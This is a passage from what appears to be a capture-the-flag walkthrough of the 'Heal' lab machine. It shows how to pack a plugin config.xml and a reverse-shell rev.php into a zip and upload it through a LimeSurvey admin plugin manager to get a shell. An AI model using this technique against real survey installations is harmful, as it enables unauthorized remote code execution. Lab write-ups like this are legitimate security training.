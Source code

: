 ```xml
                <![CDATA[Author : Y1LD1R1M]]></description>
    </metadata>

    <compatibility>
        <version>3.0</version>
        <version>4.0</version>
        <version>5.0</version>  
        <version>6.6.4</version>
    </compatibility>
    <updaters disabled="disabled"></updaters>
</config>
```

And a file to get the reverse shell, you can customize it.

![16.png](Heal/images/16.png)

```zsh
❯ ll
total 12
-rw-rw-r-- 1 kali kali  779 Dec 21 01:21 config.xml
-rwxr-xr-x 1 kali kali 5493 Dec 21 01:15 rev.php

❯ 7z a rev.zip config.xml rev.php

```

Go to `http://take-survey.heal.htb/index.php/admin/pluginmanager/sa/index` upload and install the `rev.zip` file.

![13.png](Heal/images/13.png)
